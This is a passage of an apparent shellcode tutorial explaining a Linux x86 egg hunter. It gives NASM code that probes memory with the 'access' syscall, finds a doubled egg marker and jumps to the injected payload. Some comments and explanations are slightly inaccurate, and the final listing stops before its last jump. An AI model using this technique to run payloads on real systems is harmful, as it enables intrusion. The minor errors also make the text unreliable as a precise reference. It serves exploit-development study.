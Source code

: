 The next step is to perform a page alignment operation on the current pointer that is being validated by doing a bitwise OR operation on the low 16-bits of the current pointer (stored in edx) and then incrementing edx by one. This operation is equivalent to adding 0x1000 to the value in edx. The reason these two operations are separated is to avoid nullbytes inside the shellcode.

```nasm
_firstStep:
	or dx, 0xfff		;Do a OR on dx register, dx == 0xFFF

_secondStep:
	inc edx		;Add 1 to edx, edx == 0x1000
```

The third step is to use a systemcall 'access' which will take an address as a parameter and check for us if the memory address is valid. If not the systemcall will return '0xf2' telling us the given address is invalid and then loop until the result returns a valid address.

```nasm
lea ebx, [edx+0x4]		;Ebx now holds the value of edx + 0x4
push byte +0x21		;Push 0x21 on the stack
pop eax			;Pop 0x21 which is the systemcall value of access
int 0x80			;Execute systemcall
cmp al, 0xf2			;Compare the systemcall return value to 0x2f
jz _firstStep			;If zero, the program will jump to '_firstStep'. Which means the return value is not a valid memory address
```

The last step is to check two times the presence of the egg. Because, if we don't do this check a second time the egg hunter code will jump on the wrong memory address and then execute an invalid code.

```nasm
mov eax, 0x50905090		;This instruction will move our egg value inside eax
mov edi, edx			;Move the address stores in edx to edi
scasd				;This instruction will compare the value inside eax and edi
jnz _secondStep		;Jump back to '_secondStep' if the comparaison is false
scasd				;We check a second time the presence of our egg before executing the shellcode
jnz _secondStep		;Jump back to '_secondStep' if the comparaison is false
jmp edi			;Jump to our payload
```

You can find the whole code below:
-
```nasm
global _start

_start:
	xor ecx, ecx			;Initialize ecx to NULL
	mul ecx			;Initilize eax and edx to NULL

_firstStep:
	or dx, 0xfff			;Do a OR on dx register, dx == 0xFFF

_secondStep:
	inc edx			;Add 1 to edx, edx == 0x1000
	lea ebx, [edx+0x4]		;Ebx now holds the value of edx + 0x4
	push byte +0x21		;Push 0x21 on the stack
	pop eax			;Pop 0x21 which is the systemcall value of access
	int 0x80			;Execute systemcall
	cmp al, 0xf2			;Compare the systemcall return value to 0x2f
	jz _firstStep			;If zero, the program will jump to '_firstStep'. Which means the return value is not a valid memory address
	mov eax, 0x50905090		;This instruction will move our egg value inside eax
	mov edi, edx			;Move the address stores in edx to edi
	scasd				;This instruction will compare the value inside eax and edi
	jnz _secondStep		;Jump back to '_secondStep' if the comparaison is false
	scasd				;We check a second time the presence of our egg before executing the shellcode
```